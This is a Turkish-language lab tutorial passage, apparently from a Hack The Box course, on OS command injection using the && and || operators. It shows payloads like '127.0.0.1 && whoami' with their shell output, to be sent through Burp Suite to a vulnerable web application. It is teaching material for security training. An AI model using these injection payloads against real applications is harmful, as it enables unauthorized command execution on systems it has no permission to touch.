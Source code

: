 Her zaman yapmamız gerektiği gibi, çalışan bir komut olduğundan emin olmak için önce Linux VM'mizde komutu çalıştırmayı deneyelim:

```shell-session
21y4d@htb[/htb]$ ping -c 1 127.0.0.1 && whoami

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=1.03 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 1.034/1.034/1.034/0.000 ms
21y4d
```

Gördüğümüz gibi, komut çalışıyor ve daha önce aldığımız çıktının aynısını alıyoruz. Önceki bölümdeki enjeksiyon operatörleri tablosuna bakmayı deneyin ve && operatörünün nasıl farklı olduğunu görün (eğer bir IP yazmazsak ve doğrudan && ile başlarsak, komut yine de çalışır mı?)

Şimdi, payload'umuzu kopyalayarak, Burp Suite'teki HTTP isteğimize yapıştırarak, URL kodlayarak ve son olarak göndererek daha önce yaptığımızın aynısını yapabiliriz:

![Pasted image 20241210220812.png](/img/user/resimler/Pasted%20image%2020241210220812.png)

Gördüğümüz gibi, komutumuzu başarıyla enjekte ettik ve her iki komutun da beklenen çıktısını aldık.


## OR Operator

Son olarak, OR (||) enjeksiyon operatörünü deneyelim. OR operatörü yalnızca ilk komutun çalışmaması durumunda ikinci komutu çalıştırır. Bu, her iki komutun da çalışmasını sağlamanın sağlam bir yolu olmadan enjeksiyonumuzun orijinal komutu bozacağı durumlarda bizim için yararlı olabilir. Dolayısıyla, OR operatörünü kullanmak, ilk komutun başarısız olması halinde yeni komutumuzun çalışmasını sağlayacaktır.

Normal payload'umuzu || operatörü ile kullanmaya çalışırsak (127.0.0.1 || whoami), sadece ilk komutun çalışacağını görürüz:

```shell-session
21y4d@htb[/htb]$ ping -c 1 127.0.0.1 || whoami

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.635 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.635/0.635/0.635/0.000 ms
```

Bunun nedeni bash komutlarının çalışma şeklidir. İlk komut başarılı bir şekilde yürütüldüğünü gösteren çıkış kodu 0'ı döndürdüğünde, bash komutu durur ve diğer komutu denemez. Yalnızca ilk komut başarısız olursa ve çıkış kodu 1 döndürürse diğer komutu çalıştırmayı deneyecektir.

HTTP isteğinde yukarıdaki payload'u kullanmayı deneyin ve web uygulamasının bunu nasıl ele aldığını görün.
